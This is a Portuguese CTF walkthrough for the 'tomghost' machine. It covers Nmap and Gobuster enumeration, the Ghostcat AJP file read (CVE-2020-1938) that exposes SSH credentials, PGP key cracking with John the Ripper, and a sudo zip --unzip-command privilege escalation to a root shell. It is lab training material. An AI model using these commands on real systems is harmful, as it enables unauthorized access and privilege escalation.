# _**tomghost CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos um <mark>tomcat</mark> na prota 8080  
Vamos investigar e também realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../Discovery/Web-Content/common.txt
> gobuster dir --url [ip_adress]:8080 -w ../Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt
> ```
  

  

Parece que temos alguns diretórios bem interessantes  
Apesar da busca, nada foi encontrado  
Voltando as análises do Nmap, temos uma porta bem curiosa: 8009  
Pesquisando no Google sobre <mark>Apache Tomcat ajp</mark>, foi possível encontrar uma CVE: 1938  
Para confirmarmos, vamos utilizar o Nmap
> ```bash
> nmap -p 8009 --script ajp-methods [ip_address]
> ```


Temos retorno!  
Vamos tentar explorar  

## _**Ganhando acesso**_
Buscando no Google um pouco mais para tentar descobrir onde podemos encontrar um _exploit_, chegamos [neste link](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  
Primeiro
> ```bash
> git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487
> ```
> ```bash
> cd Ghostcat-CNVD-2020-10487
> ```

Segundo
> ```bash
> python3 ajpShooter.py -h [ip_address] -p 8009 -f WEB-INF/web.xml
> ```
Temos uma resposta para o comando acima!  



Vamos realizar login via SSH com o usuário e senha encontrados  



Após login, investigamos os diretórios e descobrimos que tem outro usuário, _merlin_
Nele, contém nossa primeira flag!

## _**Escalando privilégios**_
Primeiro, vamos tentar alguns comandos como ```sudo -l```  
Nenhum retorno  
Encontramos dois arquivos, um _.asc_ e outro _.pgp_  
Podemos tentar extrair para nossa máquina com ```scp```  
Após a extração, tentar importar a chave com gpg --import _.asc_  
Necessário uma senha!  
Vamos tentar fazer isso na máquina-alvo  



Parece que iremos precisar de uma senha  
Vamos tentar de uma maneira diferente usando <mark>John the Ripper</mark>  
> ```bash
> gpg2john .asc > hash_john
> ```
> ```bash
> john hash_john -w=../rockyou.txt
> ```


Vamos agora voltar para a máquina-alvo e executar:
> ```bash
> gpg --decrypt credential.pgp
> ```


Vamos realizar login via SSH como _merlin_  



Agora sim, executando o comando ```sudo -l```, temos retorno



Vamos executar os seguintes comandos:
> ```bash
> echo "/bin/sh" > /tmp/shell.sh
> ```
> ```bash
> chmod +x /tmp/shell.sh
> ```
> ```bash
> cd /tmp
> ```
> ```bash
> echo "X" > test.txt
> ```
> ```bash
> sudo /usr/bin/zip /tmp/test.zip /tmp/test.txt -T --unzip-command="/tmp/shell.sh"
> ```


Basta buscar a flag em /root
